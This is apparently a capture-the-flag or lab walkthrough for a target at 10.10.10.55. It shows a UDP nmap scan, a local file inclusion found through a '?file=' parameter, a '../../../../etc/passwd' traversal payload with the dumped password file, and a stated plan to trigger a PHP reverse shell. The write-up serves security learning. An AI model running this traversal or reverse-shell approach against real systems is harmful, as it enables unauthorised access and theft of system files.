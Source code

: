 only port found open was port 80 http so going to try UDP also

```yaml
nmap -sU -v 10.10.10.55
```

#This will take some time so going to check out web site in browser

Look at the webpage does not seem too special so take a look at page source and I see this in the URL block

```yaml
view-source:http://10.10.10.55/?file=index.php#
```

the URL has a tell for possible local file include to try

First it is *PHP

Second it has ?file= in the URL

The common path to check if it is vulnerable to LFI is the *../../../../etc/passwd file path

So by using this URL *http://10.10.10.55/?file=../../../../etc/passwd

We get the password file inserted at the top od the page for viewing. that also tells me if I can get a PHP reverse shell on the site I can use the browd\ser to fire it off

```yaml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
*lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
*mike:x:1000:1000:mike:/home/mike:/bin/bash
*tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

